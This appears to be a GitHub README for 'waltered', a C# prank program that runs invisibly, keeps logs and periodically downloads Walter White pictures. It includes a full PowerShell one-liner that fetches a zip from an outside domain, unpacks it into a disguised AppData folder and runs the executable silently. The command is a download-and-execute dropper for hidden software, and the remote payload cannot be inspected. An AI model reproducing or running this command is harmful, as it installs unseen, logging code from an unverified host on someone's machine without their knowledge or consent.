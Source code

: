 # waltered

Program written in C# that generates a number between 0 and 2000 every 20 seconds and if it is <= 750 then it will download one of 3 pictures of Walter White.

Very bad code but it was thrown together while I was bored.

Program also keeps logs and is invisible.

# Powershell Command

I also made a powershell command to download and run it.

`
Invoke-WebRequest -Uri https://dcb.phxrmxcist.lol/waltered.zip -OutFile waltered.zip; mv waltered.zip "C:\Users\$env:username\AppData\Roaming\waltered.zip"; Expand-Archive -LiteralPath "C:\Users\$env:username\AppData\Roaming\waltered.zip" -DestinationPath "C:\Users\$env:username\AppData\Roaming\qdsf32sdf"; rm "C:\Users\$env:username\AppData\Roaming\waltered.zip"; cmd /c '%appdata%\qdsf32sdf\waltered.exe'
`
